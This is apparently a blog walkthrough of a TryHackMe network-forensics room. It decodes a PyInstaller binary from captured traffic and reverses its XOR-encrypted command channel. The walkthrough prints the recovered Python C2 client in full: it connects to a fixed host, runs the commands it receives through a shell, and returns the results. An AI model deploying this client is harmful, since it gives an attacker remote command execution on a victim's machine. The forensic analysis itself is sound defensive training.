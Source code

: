 ```yaml
---
title: SeeTwo - TryHackMe - Walkthrough
date: 2024-11-16 10:00:00 +0200
categories: [TryHackMe]
tags: [seetwo,forensics,pyinstxtractor,xor,python,wireshark,c2]
description: TryHackMe network traffic forensics which involves reversing a binary.
image:
  path: /assets/blog/SeeTwo/Room.png
  alt: SeeTwo Room image
---
```


This Room is rated as Medium!
Visit the room here: <https://tryhackme.com/r/room/seetworoom>

## Description

> You are tasked with looking at some suspicious network activity by your digital forensics team.
>
> The server has been taken out of production while you analyze the suspicious behavior.
>
> Click on the Download Task Files button at the top of this task. You will be provided with an evidence.zip file.
> Extract the zip file's contents and begin your analysis in order to answer the questions.
>
> Note: For free users using the AttackBox, the challenge is best done using your own environment. Some browsers may detect the file as malicious. The zip file is safe to download with md5 of ea6f0bf505f87d18c9881de055b63ed3. In general, as a security practice, download the zip and analyze the forensic files on a dedicated virtual machine, and not on your host OS.

So first I downloaded the file.

## How I solved it

![Wireshark and the first impression](/assets/blog/SeeTwo/Wireshark0.png)

There is a huge amount of http traffic (green packages). If we inspect the protocol hierarchy we see mainly TCP and HTTP.

![Hierarchy Wireshark](/assets/blog/SeeTwo/Wireshark1.png)

Now let's inspect some data streams of HTTP to find out what is inside them.

![Base64 HTTP package](/assets/blog/SeeTwo/Wireshark2.png)

This looks like `base64`-encoded data, and that's not only for that stream but for multiple data streams. Now let's use [`tshark`](https://www.wireshark.org/docs/man-pages/tshark.html) to extract the base64 from the stream 2 which was the first I discovered. I saved the `base64` response as a file and removed the HTTP headers from the file so I could decod the huge amount of encoded data.

**Why is the stream 2 more intresting to me than the others?** This stream is very huge over 31 megabytes of data, so this likely can be some tool or some exfiltrated data. 

```sh
cat base64-stream2.txt | tr -d '\n' | base64 -d > stream2
```

![](/assets/blog/SeeTwo/Unix0.png)

This is nice the extracted blob of data is a ELF binary, so the next step for me was to open this binary in Ghirda. After some searching where the main function or some equivalent is, I found this piece of code which looks pretty interesting.

![Pyinstaller strings](/assets/blog/SeeTwo/Ghidra0.png)

There is something with `pyinstaller` which catched my eye. If we google pyinstaller we are provided with the following page:

![Google results](/assets/blog/SeeTwo/Google0.png)

This is a executable which makes a python script to one binary. So let's search the internet if there is any decompiler to retrive the original code. I found this tool <https://github.com/extremecoders-re/pyinstxtractor>, I cloned the GitHub repositry and then this command:
```sh
python pyinstxtractor/pyinstxtractor.py stream2
```

Now I got like all files used for that binary:

![](/assets/blog/SeeTwo/files0.png)

The file `client.pyc` looks interesting. I couln't open it because it's also compiled, so I searched for a extractor.
I found another tool `uncompyle6` which let's us do this.

```sh
pip3 install uncompyle6 # if you need to install it
uncompyle6 client.pyc > client.py
```

Wow now we have the source code which we can reverse engineer the messages send in the other `base64` encoded TCP streams:
```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

Looks like every command of the C2 server and it's result is base64 encoded using the key `MySup3rXoRKeYForCommandandControl` after the image which is used to reduce risk. So let's build a reverse tool to get the commands back.

You can use this command to extract the data from TCP stream 3 which mostlikly is the stream we need to investigate.

```sh
tshark -r capture.pcap -qz follow,tcp,raw,3 | sed '$ d' | tail -n +7 | tr -d ' ' | while IFS= read -r line; do echo "$line" | xxd -r -p;echo ""; done > part1.txt
```

For the second stream of interestI just changed the ouput file and the stream after the `raw,`.

To go further we need to remove the image from the data to extract the commands. I build this nice python script with the help of some python:
```python
import base64


def xor_decrypt(encrypted_data, key):
    key = key.encode("utf-8")
    key_length = len(key)
    encrypted_data = base64.b64decode(encrypted_data.strip())
    decrypted_data = bytearray()
    
    for i, byte in enumerate(encrypted_data):
        decrypted_data.append(byte ^ key[i % key_length])
    
    return decrypted_data.decode("utf-8")

def decrypt_file(input_file, output_file, key):
    with open(input_file, "r") as infile, open(output_file, "w") as outfile:
        for line in infile:
            line = line.split("AAAAAAAAAA")[1]
            try:

                decrypted_text = xor_decrypt(line, key)

                outfile.write(decrypted_text + "\n")
            except Exception as e:
                print(f"Failed to decrypt line: {line.strip()}, Error: {e}")

# Configuration
input_file = "part1.txt"
output_file = "part1_commands.txt"
key = "MySup3rXoRKeYForCommandandControl"

decrypt_file(input_file, output_file, key)

print(f"Decryption complete. Decrypted data saved to {output_file}")
```

After I extracted the command I was able to complete the room.

Here are the extracted commands:

![](/assets/blog/SeeTwo/first.png)

![](/assets/blog/SeeTwo/second.png)

## Conclusion

I really liked the room it involed different techiques and tools and I could learn some new stuff.
